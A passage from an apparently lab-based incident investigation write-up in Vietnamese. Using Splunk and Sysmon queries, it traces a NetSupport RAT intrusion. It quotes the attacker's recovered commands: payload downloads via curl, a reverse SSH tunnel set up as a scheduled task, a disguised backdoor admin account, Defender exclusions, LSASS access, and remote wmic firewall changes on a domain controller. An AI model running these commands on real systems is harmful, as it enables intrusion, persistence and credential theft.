  host="IT-WS01" earliest="07/17/2025:19:40:00"
  (process_id=12792 OR parent_process_id=12792 OR SourceProcessId=12792)
  {c73af8d8-51b9-6879-6914-000000005300}
| stats count by EventCode
```

```spl
index=main source="XmlWinEventLog:Security" host="IT-WS01"
  earliest="07/17/2025:19:40:41" EventCode=4689 process=*netsupport.exe
| where ProcessId=lower(tostring(12792, "hex"))
| table _time src_user Logon_ID ProcessId process
```



Thống kê Sysmon event id liên quan đến process này:



#### 6.1. Thời gian hoạt động

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:40:00"
  process_id=12792 {c73af8d8-51b9-6879-6914-000000005300} EventCode=5
| table _time EventDescription Computer process_id Image
```



Process `netsupport.exe` kết thúc vào **2025-07-18 08:43:56** — tổng cộng khoảng **13 tiếng** hoạt động liên tục. Thời gian hoạt động kéo dài kết hợp với các kết nối mạng liên tục xác nhận đây là một malware thuộc loại **RAT (Remote Access Trojan)**, duy trì kết nối và nhận lệnh từ C2.

#### 6.2. Kết nối C2

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:40:00"
  process_id=12792 {c73af8d8-51b9-6879-6914-000000005300} EventCode=3
| bin span=30m _time
| stats count by _time DestinationIp DestinationPort
| sort _time
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:40:00"
  process_id=12792 {c73af8d8-51b9-6879-6914-000000005300}
  EventCode=3 DestinationIp=10.10.11.216
| table _time DestinationIp DestinationPort
| sort _time
```





Process `netsupport.exe` liên tục duy trì kết nối tới C2 `10.10.5.100:9001`. Ngoài ra, vào **2025-07-17 19:41:43**, ghi nhận kết nối tới DC01 (`10.10.11.216`) qua port 135 (RPC Endpoint Mapper) để hỏi port động, sau đó kết nối tới port 49667 để gọi hàm RPC từ xa.

#### 6.3. Các lệnh thực thi từ C2

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:40:00"
  parent_process_id=12792 {c73af8d8-51b9-6879-6914-000000005300} EventCode=1
| table _time host user IntegrityLevel LogonId parent_process_id
  parent_process_path process_id CommandLine
| sort _time EventRecordID
```



Tất cả các lệnh sau đều được thực thi dưới danh tính `danderson` với Integrity Level = **High**:

##### 6.3.1. Discovery (19:44 – 20:08)

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 19:44:03 | `net user /domain` | Liệt kê toàn bộ user trong domain `corp.local` |
| 19:44:04 | `net user` | Liệt kê user cục bộ |
| 19:45:18 | `whoami /all` | Kiểm tra username, SID, group và privilege của user hiện tại (`danderson`) |
| 19:46:23 | `net group "Domain Admins" /domain` | Liệt kê thành viên thuộc nhóm Domain Admins |
| 19:49:12 | `net group "Domain Admins" /domain` | Thực hiện lại lệnh trên |
| 19:50:23 | `net user ServiceAdmin /domain` | Truy vấn thông tin tài khoản domain `ServiceAdmin` |
| 19:52:49 | `net user ServiceAdmin /domain` | Thực hiện lại lệnh trên |
| 19:53:59 | `cmdkey /add:DC01 /user:CORP\ServiceAdmin /pass:FakePass123!` | Lưu credentials của user `ServiceAdmin` vào Windows Credential Manager để windows tự động xác thực mà không yêu cầu nhập password bằng tay |
| 19:55:10 | `cmdkey /list` | Xác nhận credentials đã được lưu thành công |
| 19:56:11 | `net view \\CORP.local\SYSVOL` | Liệt kê các items trong share SYSVOL (thường chứa GPP Passwords, GPO và logon script) |
| 19:57:19 | `tasklist \| find ssh` | Kiểm tra xem SSH daemon có đang chạy không |
| 19:58:45 | `ping -n 1 DC01` | Kiểm tra kết nối tới DC |
| 20:01:19 | `net view \\CORP.local` | Liệt kê các share trên DC |
| 20:02:24 | `net view \\CORP.local\SYSVOL` | Liệt kê lại items trong SYSVOL |
| 20:03:40 | `tasklist` | Liệt kê process đang chạy |
| 20:08:17 | `whoami /all` | Kiểm tra lại thông tin chi tiết user `danderson` |

##### 6.3.2. Tải và thực thi `install.bat` (20:17 – 20:29)

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 20:17:03 | `cmd /c "wget http://10.10.5.142/install.bat -O ..."` | Thử tải `install.bat` bằng `wget`, nhưng `wget` không có sẵn trong cmd nên lệnh thất bại |
| 20:26:41 | `curl http://10.10.5.142/install.bat -o C:/Users/danderson/install.bat` | 9 phút sau, chuyển sang `curl` để tải `install.bat` |
| 20:29:07 | `cmd.exe /c C:/Users/danderson/install.bat` | Thực thi batch script |

---

### 7. Thực thi `install.bat` — SSH Tunnel Setup

**PID cmd.exe:** 9844

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:40:00"
  process_id=9844 {c73af8d8-5d13-6879-4616-000000005300} EventCode=11
| table _time Image TargetFilename
```



Script `install.bat` drop binary SSH client (`ssh.exe`) và SSH server (`sshd.exe`) vào thư mục `C:\ProgramData\sshd\`. Có thể lệnh `tasklist | find ssh` trước đó không cho thấy thấy SSH server đang chạy, nên attacker quyết định tự triển khai.

#### 7.1. Scheduled Task — Reverse SSH Tunnel

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:20:29:07"
  parent_process_id=9844 {c73af8d8-5d13-6879-4616-000000005300}
| table _time user IntegrityLevel CommandLine
```



```
schtasks.exe /create /sc minute /mo 1 /tn "SSH Key Exchange" /rl highest
  /tr "C:\ProgramData\sshd\ssh.exe -i C:\ProgramData\sshd\config\keys\id_rsa
  -N -R 369:127.0.0.1:2222 root@10.10.5.142
  -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=15"
```

Attacker tạo schedule task thiết lập một **reverse SSH tunnel** trên máy victim với luồng hoạt động như sau:

1. SSH client trên máy victim chủ động kết nối outbound tới SSH server trên `10.10.5.142:22` (port SSH mặc định)
2. Attacker kết nối SSH tới `10.10.5.142` trên port 369 (ví dụ: `ssh -p 369 root@127.0.0.1`)
3. Mọi lệnh attacker gửi vào `10.10.5.142:369` được chuyển tiếp qua SSH tunnel
4. SSH client trên máy victim nhận lệnh, kết nối TCP tới `127.0.0.1:2222` (local SSH server `sshd`) để gửi lệnh
5. `sshd:2222` thực thi lệnh rồi trả kết quả ngược lại qua tunnel đã thiết lập

Task chạy **mỗi 1 phút** với quyền hạn cao nhất (`/rl highest`) nhằm duy trì tunnel, và được đặt tên `SSH Key Exchange` để giả mạo task quản trị vô hại.

**Các tùy chọn SSH đáng chú ý:**

| Tùy chọn | Mô tả |
|---|---|
| `-o StrictHostKeyChecking=no` | Tự động chấp nhận host key mới mà không cần xác nhận — cho phép kết nối tự động không cần tương tác |
| `-o ServerAliveInterval=60` | Gửi gói keepalive mỗi 60 giây để duy trì tunnel |
| `-o ServerAliveCountMax=15` | Cho phép 15 gói keepalive liên tiếp không được trả lời trước khi ngắt kết nối |

**`StrictHostKeyChecking`:** Khi SSH vào server lần đầu, client nhận host key và đối chiếu thông tin đã lưu trong tệp `~/.ssh/known_hosts`. Với giá trị `no`, SSH vẫn kết nối ngay cả khi host key bị thay đổi — giúp attacker thiết lập kết nối tự động mà không cần xác nhận bằng tay.

#### 7.2. Scheduled Task — SSH Server

```
schtasks.exe /create /sc minute /mo 1 /tn "SSH Server" /rl highest
  /tr "C:\ProgramData\sshd\sshd.exe -f C:\ProgramData\sshd\config\sshd_config"
```

Tạo task tự động khởi chạy SSH server trên máy victim để nhận lệnh được chuyển tiếp qua tunnel.

#### 7.3. Xác nhận task đã đăng ký

```spl
index=main host="IT-WS01" earliest="07/17/2025:20:29:10"
  latest="07/17/2025:20:30:00" EventCode=106
| table _time TaskName UserContext
```



Event 106 (Task Registered) xác nhận cả hai task `SSH Key Exchange` và `SSH Server` đã đăng ký thành công.

```spl
index=main source=XmlWinEventLog:Microsoft-Windows-TaskScheduler/Operational
  host="IT-WS01" earliest="07/17/2025:20:29:10" EventCode=100
| table _time TaskName, TaskInstanceId, UserContext
| sort _time
```



Event 100 (Task Started) ghi nhận cả hai task được khởi chạy lần đầu vào **2025-07-17 20:30:01**.

#### 7.4. Thiết lập ACL cho SSH key

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 20:29:13 | `icacls "C:\ProgramData\sshd\config\keys\id_rsa" /grant:r "danderson:(R)"` | Thay thế mọi quyền đã cấp tường minh bằng quyền **Read** cho user `danderson` |
| 20:29:13 | `icacls "C:\ProgramData\sshd\config\keys\id_rsa" /inheritance:r` | Vô hiệu hóa kế thừa quyền và xóa toàn bộ quyền kế thừa từ thư mục cha |

### 8. Tiếp tục hoạt động post-Exploitation trên IT-WS01

Sau khi thiết lập SSH tunnel, attacker tiếp tục thực thi các lệnh qua `netsupport.exe`:

#### 8.1. Kiểm tra SSH Server và tạo tài khoản backdoor

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 20:44:30 | `netstat -ano \| findstr 2222` | Kiểm tra SSH server đã lắng nghe trên port 2222 chưa |
| 20:50:07 | `net localgroup "Remote Desktop Users" WDAGUtilityAccount2 /add` | Thêm user `WDAGUtilityAccount2` vào nhóm RDP (lệnh này thất bại do user chưa tồn tại) |
| 20:51:35 | `net localgroup administrators` | Liệt kê thành viên nhóm Administrators cục bộ |
| 20:52:57 | `net localgroup Administrators WDAGUtilityAccount2 /add` | Thử thêm user WDAGUtilityAccount2 vào nhóm Administrators (lệnh này thất bại do user chưa tồn tại) |

**`WDAGUtilityAccount`** là tài khoản hệ thống (built-in) được Windows Defender Application Guard (WDAG) hoặc Windows Sandbox sử dụng. Tài khoản này thường ở trạng thái disabled và không thể dùng để đăng nhập. Attacker tạo tài khoản có tên gần giống (**thêm số 2** vào cuối) nhằm đánh lừa user khi quan sát qua GUI.

#### 8.3. Tạo user và cấp quyền

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 21:08:21 | `whoami /all` | Kiểm tra thông tin chi tiết user hiện tại |
| 21:09:38 | `net user WDAGUtilityAccount2 Decryptme1488@ /add` | Tạo user cục bộ `WDAGUtilityAccount2` với password `Decryptme1488@` |
| 21:11:02 | `net localgroup Administrators WDAGUtilityAccount2 /add` | Thêm vào nhóm Administrators |
| 21:12:12 | `net localgroup "Remote Desktop Users" WDAGUtilityAccount2 /add` | Thêm vào nhóm Remote Desktop Users — cho phép user này RDP vào máy |

```spl
index=main host="IT-WS01" earliest="07/17/2025:21:09:38"
  latest="07/17/2025:21:10:38" EventCode=4720
| table _time SubjectUserName, TargetUserName, TargetSid,
  SamAccountName, UserAccountControl
```



Event 4720 xác nhận user `IT-WS01\WDAGUtilityAccount2` được tạo thành công.

```spl
index=main host="IT-WS01" earliest="07/17/2025:21:11:00"
  latest="07/17/2025:21:13:00" EventCode=4732
| table _time SubjectUserName, TargetUserName, TargetSid,
  MemberName, MemberSid
```



Event 4732 xác nhận user `WDAGUtilityAccount2` đã được thêm vào cả 2 nhóm `BUILTIN\Administrators` và `BUILTIN\Remote Desktop Users`.

#### 8.4. Vô hiệu hóa Windows Defender

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 21:12:12 | `powershell Get-MpThreat` | Truy xuất lịch sử mối đe dọa đã phát hiện — kiểm tra payload đã bị phát hiện chưa |
| 21:13:22 | `powershell Get-MpPreference` | Kiểm tra cấu hình hiện tại của Window Defender |
| 21:14:50 | `powershell "Add-MpPreference -ExclusionPath 'C:\Users\Public'"` | Loại trừ thư mục `C:\Users\Public` khỏi mục tiêu quét của Defender |
| 21:23:51 | `curl http://10.10.5.142/mpms.exe -o C:/Users/danderson/Documents/mpms.exe` | Tải payload `mpms.exe`, đặt vào thư mục `C:/Users/danderson/Documents/`  |
| 21:25:02 | `powershell "Add-MpPreference -ExclusionProcess ..."` | Loại trừ process `mpms.exe` khỏi phạm vi quét, defender sẽ không quét các tệp mà process này mở hoặc truy cập (đọc/ghi file, nạp DLL...), tuy nhiên, bản thân tệp thực thi này vẫn có thể bị quét |
| 21:25:02 | `powershell Add-MpPreference -DisableBehaviorMonitoring True` | Cố tắt Behavior Monitoring (sai cmdlet) |
| 21:25:02 | `powershell Add-MpPreference -DisDisableRealtimeMonitoring True` | Cố tắt Realtime Monitoring (sai tên tham số) |
| 21:26:30 | *(Lặp lại 2 lệnh trên với dấu ngoặc kép)* | Thử lại — vẫn thất bại |

Attacker đã sử dụng sai cmdlet: sử dụng `Add-MpPreference` thay vì `Set-MpPreference`, do đó, các lần cố tắt tính năng Behavior Monitoring và Realtime Monitoring của Window Defender đều **thất bại**. Tuy nhiên, việc thêm exclusion path và exclusion process đã **thành công**.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Windows Defender/Operational"
  host="IT-WS01" earliest="07/17/2025:21:14:40" latest="07/17/2025:21:26:10"
| stats count by EventCode
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Windows Defender/Operational"
  host="IT-WS01" earliest="07/17/2025:21:14:40" latest="07/17/2025:21:26:10"
  EventCode=5007
| table _time Old_Value New_Value
```





Event 5007 (Configuration Changed) xác nhận `C:\Users\Public` và process `mpms.exe` đã được loại trừ thành công. Đồng thời, không ghi nhận event id 5001 (Real-time protection disabled), xác nhận attacker không tắt được 2 tính năng kể trên của Defender do lỗi cú pháp lệnh.

```spl
index=main host="IT-WS01" mpms.exe
| stats count by EventCode source
```

```spl
index=main host="IT-WS01" mpms.exe EventCode=1
| table _time CommandLine
```





Payload `mpms.exe` đã được tải về nhưng **chưa ghi nhận được thực thi** trong log.

#### 8.5. Credential Dumping — LSASS

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 21:29:00 | `powershell "Get-Process -Name lsass"` | Lấy thông tin process LSASS — bước chuẩn bị trước khi truy cập bộ nhớ nhằm dump credentials |

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:40:00"
  SourceProcessId=12792 {c73af8d8-51b9-6879-6914-000000005300}
  EventCode=10
| table _time SourceUser process_exec GrantedAccess
  TargetImage TargetProcessId RuleName CallTrace
| sort _time
```



Vào **2025-07-17 21:36:24**, Sysmon event id 10 ghi nhận process `netsupport.exe` mở handle tới process `lsass.exe` với access mask là **0x1010** (`PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ`). Đây là dấu hiệu cho thấy hành vi dump credentials từ bộ nhớ LSASS.

#### 8.6. WMI Remote Execution — Thay đổi firewall trên DC01

Khoảng hơn 30 phút sau khi ghi nhận hành vi truy cập bộ nhớ process LSASS, attacker thực thi thêm các lệnh sau:

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 22:04:31 | `whoami` | Kiểm tra username hiện tại |
| 22:13:03 | `wmic /node:10.10.11.216 /user:aclark /password:vm96Dva! process call create "netsh advfirewall firewall add rule dir=in name=\"DCOM\" program=...svchost.exe service=rpcss action=allow protocol=TCP localport=135"` | Tạo rule firewall từ xa với tên `DCOM` trên DC01, cho phép kết nối inbound tới RPC Endpoint Mapper (TCP/135) |
| 22:14:31 | `wmic /node:10.10.11.216 /user:aclark /password:vm96Dva! process call create "netsh advfirewall firewall show rule name=\"DCOM\""` | Kiểm tra rule vừa tạo |
| 22:17:56 | `wmic /node:10.10.11.216 /user:aclark /password:vm96Dva! process call create "netsh advfirewall firewall add rule dir=in name=\"WMI\" ... service=winmgmt action=allow protocol=TCP localport=any"` | Tạo rule `WMI` cho phép kết nối tới dịch vụ WMI qua bất kì port nào từ **mọi source ip** |

Attacker sử dụng `wmic` để thực thi lệnh từ xa nhằm chỉnh rule firewall trên DC01, xác thực qua cặp credentials `aclark:vm96Dva!`. Tham số chi tiết của rule `DCOM`:

| Tham số | Giải thích |
|---|---|
| `dir=in` | Áp dụng cho lưu lượng đi vào (inbound) |
| `name="DCOM"` | Đặt tên rule là DCOM |
| `program=...svchost.exe` | Chỉ áp dụng cho chương trình `svchost.exe` |
| `service=rpcss` | Chỉ cho phép dịch vụ Remote Procedure Call (RpcSs) |
| `action=allow` | Cho phép lưu lượng khớp rule |
| `protocol=TCP` | Chỉ áp dụng protocol TCP |
| `localport=135` | Chỉ áp dụng cho cổng TCP/135 |

```spl
index=main host="DC01" earliest="07/17/2025:22:10:00"
  latest="07/17/2025:22:30:00"
| stats count by EventCode source
```



Trong log được cung cấp, không ghi nhận event nào liên quan trên DC01 trong khoảng thời gian 3 lệnh `wmic` được thực thi, nên chưa xác nhận được firewall rule đã tạo thành công hay chưa.

Ngoài ra, quan sát thấy attacker đã sử dụng plaintext password của user aclark trong các câu lệnh sử dụng wmic để chạy lệnh từ xa trên DC01, trong khi đó sự kiện truy cập lsass diễn ra trước các sự kiện này khoảng 30 phút, có thể attacker đã thành công dump password hash của user và crack lấy plaintext password. 

### 9. Lateral Movement sang DC01

```spl
index=main source=XmlWinEventLog:Security host=DC01
  earliest="07/17/2025:21:36:24" TargetUserName=*
  NOT TargetUserName IN ("*$@CORP.LOCAL", "*$") EventCode=4624
| eval ElevatedToken=if(ElevatedToken=="%%1842", "yes", "no")
| table _time, TargetUserName, TargetDomainName, TargetLogonId,
  TargetLinkedLogonId, LogonType, IpAddress,
  AuthenticationPackageName, ElevatedToken
| sort _time
```

```spl
index=main source=XmlWinEventLog:Security host=DC01
  earliest="07/17/2025:21:36:24" TargetUserName=aclark EventCode=4776
| table _time TargetUserName Workstation Status PackageName
| sort _time
```





Bắt đầu từ **2025-07-18 01:02:21**, ghi nhận liên tiếp các event 4624 (đăng nhập thành công) trên DC01 sử dụng tài khoản `aclark`. Tất cả đều bắt nguồn từ IP `10.10.5.142` — IP của attacker (xuất hiện trong các URL tải payload), **không phải** IP server C2 mà RAT kết nối tới (`10.10.5.100`). Các sự kiện đăng nhập này đều sử dụng giao thức xác thực **NTLM**.

Kết hợp với hành vi truy cập bộ nhớ LSASS vào **21:36:24** (vài tiếng trước lateral movement), attacker nhiều khả năng đã dump được NTLM hash của user `aclark` từ LSASS và sử dụng kĩ thuật **Pass-the-Hash** để xác thực mà không cần biết plaintext password.

#### 9.1. WMI Execution trên DC01 (wmiexec/Impacket)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host=DC01 earliest="07/18/2025:01:02:00" EventCode=1 user=aclark
| table _time host user IntegrityLevel LogonId parent_process_id
  parent_process_path process_id CommandLine
| sort _time EventRecordID
```

